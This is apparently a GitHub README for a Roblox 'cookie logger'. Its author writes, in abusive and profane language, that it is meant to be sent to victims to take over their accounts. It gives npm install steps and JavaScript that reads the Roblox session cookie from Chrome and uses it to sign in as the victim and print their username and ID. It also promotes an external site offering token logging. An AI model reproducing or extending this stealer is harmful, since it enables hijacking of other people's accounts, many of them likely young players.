 # Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc

![](image.png)


# STEPS FOR SKIDS

Install these first

```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How the check if it works

a simple fucking way to check this shitty ass logger is by

```js
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
